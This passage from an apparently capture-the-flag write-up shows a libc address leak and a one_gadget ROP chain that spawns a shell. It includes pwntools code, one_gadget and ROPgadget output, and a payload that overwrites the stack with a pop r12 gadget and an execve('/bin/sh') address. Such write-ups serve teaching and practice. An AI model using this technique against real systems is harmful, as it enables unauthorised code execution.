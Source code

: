     ![](https://imgur.com/y4TJSWo.png)

2. Try to leak `libc` offset - `write` function + `gdb`
We can observe stack situation before sending payload. The first 3\*8 bytes are garbage bytes that we filled at first round.
![](https://imgur.com/Dm0nZBn.png)
    ```python!
    r.recv(0x18)
    libc_addr = u64(r.recv(6) + b'\x00\x00') - 0x24083 + 0x7
    ```
    Skip garbage bytes first then receive 6 bytes. Note that `- 0x24083 + 0x7` is try and error so that it can be `0x7f07a24fb00`(temp) checked by `vmmap`.
    ![](https://imgur.com/igQeoUJ.png)

3. Construct `one_gadget`
Use `vmmap` to check which `libc` version be used - <font color="FF0000">`/lib/x86_64-linux-gnu/libc-2.31.so`</font>
![](https://imgur.com/2hTs3o4.png)
    ```bash!
    $ one_gadget /lib/x86_64-linux-gnu/libc-2.31.so
    ...
    0xe3afe execve("/bin/sh", r15, r12)
    constraints:
      [r15] == NULL || r15 == NULL
      [r12] == NULL || r12 == NULL
    ...
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc-2.31.so --only "pop|ret" --multibr > one_gadget
    $ vim one_gadget
    ```
    ```python!
    pop_r15_ret = libc_addr + 0x2a3e4
    pop_r12_ret = libc_addr + 0x2f709
    r.send(p64(0) * 3 + p64(pop_r12_ret) + p64(0) + p64(libc_addr+0xe3afe))
    ```
    <font color="FF0000">Note that</font> `$r15` has NULL already before `read` function, so it's no need to send `pop_r15_ret`.
    ![](https://imgur.com/SK0U7Mn.png)
4. Then we got shell!!!
![](https://imgur.com/3zRhmUG.png)


#### Reference
[gdb指令](https://lu-yi-hsun.github.io/posts/reverse/gdb/#dwarf)
[Linux中誰來呼叫C語言中的main?](http://wen00072.github.io/blog/2015/02/14/main-linux-whos-going-to-call-in-c-language/)
[Docker exec 命令](https://www.runoob.com/docker/docker-exec-command.html)

### how2know_revenge

